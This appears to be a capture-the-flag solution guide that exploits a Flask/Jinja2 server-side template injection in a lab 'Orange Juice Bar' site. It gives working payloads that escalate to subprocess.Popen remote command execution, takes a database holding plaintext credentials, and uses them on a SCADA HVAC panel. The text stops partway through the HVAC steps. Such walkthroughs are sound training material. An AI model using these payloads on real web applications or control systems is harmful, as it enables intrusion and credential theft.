# The EXO-Archeologists

_Solution Guide_

## Overview

This solution guide covers how to find and exploit the necessary vulnerabilities to obtain access to the HVAC system, how to interact with the HVAC system, and how to properly send modbus commands to manipulate the HVAC system values and obtain the Codex.

These are the five high-level steps in the walkthrough needed to complete this challenge.

1. Scan the network: Here is where scan the network to know what systems you can exploit to complete the challenge.
2. Explore the Orange Juice Bar website: The website contains multiple tabs you can explore to find out which one contains a vulnerability you can exploit to obtain the flag.
3. Exploit the Server-Side Template Injection (SSTI) vulnerability: The vulnerability you will find is an SSTI vulnerability. Proceed by exploiting it with the goal of obtaining remote access.
4. Fix HVAC Sector 6 venting: This is what is asked of you at the beginning of the challenge. Details are provided below.
5. Retrieve the Codex: After the HVAC is fixed, you will obtain the codex automatically; it will be in the archeology datastore.

To better understand this solution guide, you should have moderate knowledge of the following: SSTI vulnerability, nmap, Modbus, and Python.

## HVAC Instructions

- Fan, Cool, and Heat buttons won\'t work unless the System is turned ON.
- Heating and Cooling won\'t work unless Fan is turned ON.
- Heating and Cooling can\'t be ON at the same time. Turn one ON; turn other OFF.
- Fan, Cool, and Heat take about ten seconds to turn ON. Please be patient.
- Venting won\'t work if Fan is OFF.

HVAC Emergency Feature: If Manual Vent button breaks, then both Trigger LEDs must be GREEN to accept manual network traffic.

## Scanning the network

1. Scan the network using this command: **nmap 10.10.10.0/24**

    Here are the results.

    

    There are three IP addresses of note with open ports: 

    - **10.10.10.110**  -- port 80 http
    - **10.10.10.112**  -- port 80 http; port 8080 http-proxy; port 10000 snet-sensor-mgmt; and port 10002 documentum
    - **10.10.10.115**  -- ports 139 and 445 smb 

2. Open Firefox and browse to each IP address and port 80: `10.10.10.110:80`; `10.10.10.112:80`

    Here are the results for `10.10.10.110:80`: 

    

    And the results for `10.10.10.112:80`:

    

## Exploring the Orange Juice Bar website

As mentioned in the introduction, you have guest access on the network where you found the Orange Juice Bar website.

1. On the Orange Juice Bar website, explore the different tabs to see if you can find anything that might help you gain access to the RapidSCADA account.
2. Performing a SQL injection attack on the Login tab won\'t work. To find the vulnerable tab, create a new account and log in.
3. Click Register.

    

4. Complete the fields to create a new user. This is an example.
    - username: guest
    - password: 12345678
    - first name: guest
    - email: <guest@caste.aurellia>

5. The Register button appears when the form is complete. Click the Register button.

    

    Your new user is saved in the database.

6. Click the Login tab, and login as the new user.

    

7. Once logged in, the new Feedback tab is visible. Select the Feedback tab.

    

8. Complete the new form with random data and click Submit. Here is an example output. As you can see, it returned the data entered in Topic.

    

    

#### IMPORTANT! Note on using Cross Site Scripting (XSS)

While this challenge accepts XSS commands, using XSS won't lead to successfully completing the challenge. Attempting to exploit this challenge as if it were an XSS vulnerability won't work. Here is an example of an XSS command being accepted by the Topic: input box.





## Exploiting the SSTI vulnerability

The Orange Juice Bar website uses the same template on every tab. This indicates that it's using Flask and Jinja2 to make it easier to populate data. When templates aren't secured properly, they are susceptible to Server-Side Template Injections (SSTI).

1. Test to see if this specific tab is vulnerable to SSTI by using two common template expressions: c{{7\*7}} and 1337{{3+7}} . There are lots of template expressions you can find over the internet but, we chose these two because it provides a solved mathematical value that serves as a clear indication that this input is vulnerable to SSTI.

    Once you send either example, the browser returns a mathematical value. The first example returns the mathematical value of 7 \* 7, which is equal to 49. Here is an image showing results:

    

    Now we know the Feedback tab is vulnerable to SSTI. Create some "proof-of-concepts".

    !!! tip
        Tip! Flask (Jinja2) uses Python, and in Python, everything is an object.

2. Dump the contents of the config object by entering the following: {{config.items()}}

    Here are the results:

    

    That step reassures you that calling Python objects works here. Also, if a secret key was used, the secret key is shown using that command (however, there is no Secret key here).

3. Let's try to exploit SSTI further. Start simple and build the payload up.
4. Use the Python objects to navigate the inheritance tree. For this, we'll use mostly two classes:

    `__mro__ / mro()` (*note the two underscores with no space in between*)
    
    `__subclasses__` (*again, note the two underscores with no space in between*)

5. Try to access the object base class. Create a new object using a simple integer (type int). Here is an example of our payload:

    `{{2022.__class__.__mro__}}`

    And the result: 

    

6. Now, we want access to the root object class. Select the item at index 1 and use `__subclasses__()` to list the classes available in the application. For example: `{{2022.__class__.__mro__[1].__subclasses__()}}`

    And the result:

    

    Now you have a full list of all the classes available within the application. All apps are different, so they will be exploited differently. Like we previously mentioned, we developed this challenge so many different methods for exploitation could be employed; however, the focus of this challenge is on executing remote commands.

7. We'll perform remote code execution (RCE) now. Find the following class: subprocess.Popen. You can do this by pressing ctrl+F in the browser and searching for subprocess.Popen. Note the index/position where it is found. You can count the classes one by one until you reach subprocess.Popen, but this will take a long time. So, even though we are solving this challenge using the web interface, we will create a script to find the index more easily.

Here is our script:

```bash
    #!/bin/bash

    ### STEP 1: Once you see all available classes in the application, copy and paste the website link and use it to make a curl like: 
        
    step_1=$(curl -o SSTI.txt http://10.10.10.110/feedback/?subject=%7B%7B2022.__class__.__mro__%5B1%5D.__subclasses__%28%29%7D%7D&comments=Nothing%2C+really.%0D%0A%09%09)
        
    ### STEP 2: This 'sed' command replaces each '&lt;' with a new line which is equivalent to adding a new line before each '<'. 
        
    step_2=$(sed 's/&lt;/\'$'\n/g' SSTI.txt | tee SSTI_1.txt)
        
    ### STEP 3: This 'sed' command deletes every line that doesn't contain 'class &#39;' which is equivalent to the word 'class' and an apostrophe: class '
        
    step_3=$(sed '/class &#39;/!d' SSTI_1.txt | tee SSTI_2.txt)

    ### STEP 4: This lets you know where `subprocess.Popen' is found. 
        
    step_4=$(sed -n '/subprocess.Popen/=' SSTI_2.txt)
        
    sleep 1;
        
    echo "Performing curl. $step_1"
        
    echo "Adding new line before each '&lt;'. $step_2" > /dev/null 2>&1
        
    echo "Only adding lines that include 'class &#39;' to a file. $step_3" > /dev/null 2>&1
        
    echo -e "Showing which line contains 'subprocess.Popen'. \nThe result is line: $step_4" 
```
    
The result equals 312. Let's build our latest payload using that index:

```python
{{2022.__class__.__mro__[1].__subclasses__()[312]}}
```
And here is the result:



Index 312 is indeed subprocess.Popen.

Do not skip this step because your index might be different.

8. Now, that we have the right index, subprocess.Popen allows us to  execute commands. The following payload is an example:

    ```python
    {{2022.__class__.__mro__[1].__subclasses__()[312]('whoami', shell=True, stdout=-1).communicate()}}
    ```

    

    You managed to execute remote commands!

9. Now that remote commands are possible, see which directory we are in. Go to the payload and changing whoami to pwd.

    ```python
    {{2022.__class__.__mro__[1].__subclasses__()[312]('pwd', shell=True, stdout=-1).communicate()}}
    ```

    

    We're in the `/var/www/html/orangejuice/` directory.

10. See what else is in this directory. You can do this by changing pwd to ls.

    ```python
    {{2022.__class__.__mro__[1].__subclasses__()[312]('ls', shell=True, stdout=-1).communicate()}}
    ```

    

11. We are trying to find a way to get the credentials for the RapidSCADA website, so the oranges.db file may be helpful. Let's get that file. Use python to create a simple web server to host the files in that directory including the oranges.db file. Here's what we used as a payload.

    Avoid using any of the ports that were already taken by this IP address.

    ```python
    {{2022.__class__.__mro__[1].__subclasses__()[312]('python3 -m http.server 2022', shell=True, stdout=-1).communicate()}}
    ```

12. Upon clicking Submit, the Orange Juice Bar website "hangs." This  means our command is running in the background. Open a new tab and type the following to access the wanted    files: `http://10.10.10.110:2022](http://10.10.10.110:2022`

    If you used a different port, make sure to use that one instead.

    

13. Here are our files! Download oranges.db and look at the contents of that file. Right-click the oranges.db and open with SQLite database browser.

    

    Here is what you'll see.

    

14. We want to find the users. Right-click users, then Browse Table.

    

    Passwords are in plaintext!

    

15. We want the user who oversees RapidSCADA since the purpose of the challenge is to fix the HVAC system. Search for keywords to see if this helps. Search for HVAC first.

    

16. This user seems like a good candidate. Write the credentials down.

    user: maalroia-5fec0e
    password: the_HVAC_master_21!!

## Fixing HVAC Sector 6 venting

1. Go to `http://10.10.10.112` to use the credentials. You should see a page like this one:

    

2. Once in, explore the page and see what we find.

    

    In the tree on the left, it looks like we have access to three schemes: one controls the HVAC and two others relate to past scenarios.

3. Start by reviewing 1.sch and 2.sch.
4. Select 1.sch and notice the graph.

    

    If you hover over that graph, it changes to this graph.

    

    In both graphs there was a moment where the temperature suddenly spiked to an extreme high temperature in 2020 and an extreme low temperature in 2017.

5. Select 2.sch. Pay close attention to the bottom of the graph; this graph reflects the changes in Trigger 2 Light.

    

    If you hover over that graph, it changes to this graph.

    

6. Pay close attention to the bottom of the graph; this graph reflects  the changes in Trigger 1 Light.

    We need Trigger 1 and Trigger 2 to be active to manually vent the atmosphere. We can use these past scenarios to see what caused the events to occur.

    Start with Trigger 1. Examine both graphs during 16/06/2020 and note the light went from 0 (inactive) to 1 (active) at the same time the temperature reached exactly 108 degrees.

    Let's go back to the HVAC_Scheme.sch and try setting the temperature to this.

    Remember to follow the HVAC Instructions.
   
      - Turn the system On. The SYSTEM ON/OFF light comes on.
      - Turn the fan On. In 10 seconds, the FAN ON/OFF light comes on.
      - Turn the heat On. It doesn't matter if you choose heat or cool; either will work. In 10 seconds, the HEAT ON/OFF light comes on.
      - Click Enter Temperature Here and enter 108.

    The temperature starts to rise. Once it reaches 108 degrees, the Trigger 1 light comes on.

    

7. Do the same with the remaining two graphs from 05/04/2017. The light went from 0 (inactive) to 1 (active) at the same time the temperature reached -56 degrees. Go back to the HVAC_Scheme.sch and try setting the temperature to -56.
